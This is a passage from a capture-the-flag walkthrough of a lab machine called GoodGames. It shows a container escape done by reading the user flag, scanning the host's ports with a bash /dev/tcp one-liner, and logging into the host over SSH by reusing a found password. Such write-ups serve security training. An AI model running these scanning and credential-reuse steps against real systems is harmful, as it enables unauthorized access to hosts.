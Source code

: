 ```bash
-rw-r----- 1 root 1000   33 Jul  6 20:15 user.txt
```

```bash
# User Flag
cat /home/augustus/user.txt 
dc2bb***************************
```

- The `1000` UID hints that the user's home is mounted inside the Docker container from the main system, since there is no `augustus` user or `1000` UID in the container's `/etc/passwd`
  - confirm it with `mount`

```bash
root@3a453ab39d3d:~# cat /etc/passwd | grep 1000

root@3a453ab39d3d:~# cat /etc/passwd | grep augustus

root@3a453ab39d3d:/backend# mount | grep home
/dev/sda1 on /home/augustus type ext4 (rw,relatime,errors=remount-ro)
```

### Shell as user augustus

```bash
root@3a453ab39d3d:~# ip route
default via 172.19.0.1 dev eth0 
172.19.0.0/16 dev eth0 proto kernel scope link src 172.19.0.2 
```

Knowing the container's IP is `172.19.0.2` and the host machine is the gateway with IP `172.19.0.1`, let's try to enumerate host's ports, from inside the container using a `bash` one-liner TCP port scanner:

```bash
for PORT in {0..1000}; do timeout 1 bash -c "</dev/tcp/172.19.0.1/$PORT &>/dev/null" 2>/dev/null && echo "port $PORT is open"; done
```

```bash
port 22 is open
port 80 is open
```

- `SSH` is listening internally. Attempt a password reuse for both `root` and `augustus` accounts
  - 📌 `augustus:superadministrator` works!

```bash
ssh augustus@172.19.0.1
```

```bash
augustus@GoodGames:~$ id
uid=1000(augustus) gid=1000(augustus) groups=1000(augustus)

augustus@GoodGames:~$ ip -o a
1: lo    inet 127.0.0.1/8 scope host lo\       valid_lft forever preferred_lft forever
1: lo    inet6 ::1/128 scope host \       valid_lft forever preferred_lft forever
2: eth0    inet 10.10.11.130/24 brd 10.10.11.255 scope global eth0\       valid_lft forever preferred_lft forever
2: eth0    inet6 dead:beef::250:56ff:fe94:5b3b/64 scope global dynamic mngtmpaddr \       valid_lft 86398sec preferred_lft 14398sec
2: eth0    inet6 fe80::250:56ff:fe94:5b3b/64 scope link \       valid_lft forever preferred_lft forever
3: br-99993f3f3b6b    inet 172.19.0.1/16 brd 172.19.255.255 scope global br-99993f3f3b6b\       valid_lft forever preferred_lft forever
3: br-99993f3f3b6b    inet6 fe80::42:67ff:fe07:b7a3/64 scope link \       valid_lft forever preferred_lft forever
4: docker0    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0\       valid_lft forever preferred_lft forever
```